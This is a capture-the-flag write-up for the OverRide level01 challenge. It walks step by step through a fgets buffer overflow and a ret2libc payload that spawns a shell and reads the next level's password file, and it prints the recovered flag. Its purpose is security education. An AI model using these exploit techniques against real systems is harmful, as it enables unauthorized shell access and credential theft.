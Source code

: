 # Level 01

The program asks for a username and a password.
But this is irrelevent because either way we are doing nothing with it.
However we need the good username to be able to access the password input.
The password buffer is 64 char long, but `fgets()` reads 100 chars, here is our overflow.
We see in the source code that the function that checks the user needs the `dat_wil` username.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
I have no clue (yet)
nope, incorrect password...
```

Nice, now lets try to overflow it.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$ dmesg | tail -n1
[22893.142169] level01[7344]: segfault at 41414141 ip 0000000041414141 sp 00000000ffffd650 error 14
```

We see that we indeed have a segfault. Now we are going to do a ret2libc.
Basically we will change the return address to the one of `system()` to be able to launch a shell.

Lets try. `"\xd0\xae\xe6\xf7"` is the address of `system()`

```bash
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

sh: 1: %���: not found
Segmentation fault (core dumped)
```

Promising! We have this error: `sh: 1: %���: not found` that indicates that surely got into `system()`.
Lets verify with `strace` what happened.

```bash
level01@OverRide:~$ strace -f ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7")')
[...]
execve("/bin/sh", ["sh", "-c", "\364\330\377\377"], [/* 29 vars */]) = 0
[...]
```

Yes, /bin/sh is executed. So now we just need to change the garbage data of the first argument: `\364\330\377\377`.
Instead we want to but a pointer to a string that reads "/bin/sh",
so it would be as if we did `/bin/sh -c /bin/sh` on a terminal.
For this we need to understand what will be on the stack at the moment of our code redirection.

```
+--------+--------------+
| $esp+8 |  0x????????  |	First argument, address of "/bin/sh"
+--------+--------------+
| $esp+4 |  0x????????  |	Address of the return of `system()`
+--------+--------------+
|  $esp  |  0xf7e6aed0  |	Address of the `system()` function
+--------+--------------+
```

This is how the stack is made when we redirect the execution.
We do not care where `system()` returns becaus it would've already done it's job,
so I'm just gonna replace it with `AAAA` (`0x41414141`).
Now we only need to have the addres of "/bin/sh".
We can find it in the libc like this:

```bash
level01@OverRide:~$ grep -oba "/bin/sh" /lib32/libc-2.15.so 
1431532:/bin/sh
```
So the string is located 1431532 bits after the start of the libc.
We can check this information in GDB.

```gdb
(gdb) info proc map
process 1903
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) x/s 0xf7e2c000+1431532
0xf7f897ec:      "/bin/sh"
```

So the address of "/bin/sh" is `0xf7f897ec`. Lets try:

```bash
level01@OverRide:~$ strace -f ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" + "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7")')
[...]
[pid  1980] execve("/bin/sh", ["sh", "-c", "/bin/sh"], [/* 29 vars */]) = 0
[...]
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" 
+ "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

Segmentation fault (core dumped)
```

Now we have the right `execve()` call, but we still have nothing.
It's normal because we didn't tell it to do anything. We need to add the padding to fill the `fgets()`  buffer, and then write `cat /home/users/level01/.pass\n`.

```bash
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7" + "\x00\x00\x00\x00" + "\xec\x97\xf8\xf7" + "o" * 3996 + "cat /home/users/level02/.pass\n")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
Segmentation fault (core dumped)
```

Here we go!
